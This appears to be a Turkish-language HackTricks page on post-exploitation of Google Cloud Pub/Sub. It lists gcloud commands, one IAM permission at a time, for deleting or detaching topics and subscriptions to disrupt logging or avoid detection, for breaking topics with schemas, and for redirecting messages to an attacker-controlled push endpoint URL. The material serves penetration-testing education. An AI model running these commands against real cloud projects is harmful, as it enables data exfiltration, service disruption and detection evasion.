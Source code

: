 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Pub/Sub

Pub/Sub hakkında daha fazla bilgi için aşağıdaki sayfayı kontrol edin:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Bir konuda bir mesaj yayınlayın, **beklenmedik veriler göndermek** ve beklenmedik işlevleri tetiklemek veya zafiyetleri istismar etmek için yararlıdır:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Bir aboneliğin mesaj almasını önlemek için yararlıdır, belki de tespiti önlemek için.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Bir aboneliğin mesaj almasını önlemek için faydalıdır, belki de tespiti önlemek için.\
Bir konuya bağlı abonelikler olsa bile bir konuyu silmek mümkündür.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Bu izni, konuyu bozmak için bazı ayarları güncellemek için kullanın, örneğin `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Önceki saldırılardan herhangi birini gerçekleştirmek için kendinize izin verin.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Bir web sunucusundaki tüm mesajları alın:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Bir abonelik oluşturun ve bunu **mesajları çekmek** için kullanın:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Bir aboneliği silmek**, bir günlük işleme sistemini veya benzeri bir şeyi kesintiye uğratmak için faydalı olabilir:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Bu izni, mesajların erişebileceğiniz bir yerde (URL, Big Query tablosu, Bucket) saklanması için bazı ayarları güncellemek veya sadece bunu kesintiye uğratmak için kullanın.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Kendinize daha önce bahsedilen saldırıları gerçekleştirmek için gereken izinleri verin.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Bir şemayı bir konuya ekleyin, böylece mesajlar onu karşılamaz ve dolayısıyla konu bozulur.\
Eğer hiç şema yoksa, bir tane oluşturmanız gerekebilir.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Bu, bir şemayı silmek gibi görünebilir, böylece şemaya uymayan mesajlar gönderebilirsiniz. Ancak, şema silineceği için hiçbir mesaj aslında konuya girmeyecektir. Bu nedenle bu **ANLAMSIZDIR**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Kendinize daha önce bahsedilen saldırıları gerçekleştirmek için gereken izinleri verin.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Bu, tüm onaylanmamış mesajların bir anlık görüntüsünü oluşturacak ve bunları aboneliğe geri koyacaktır. Bir saldırgan için çok faydalı değil ama burada:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
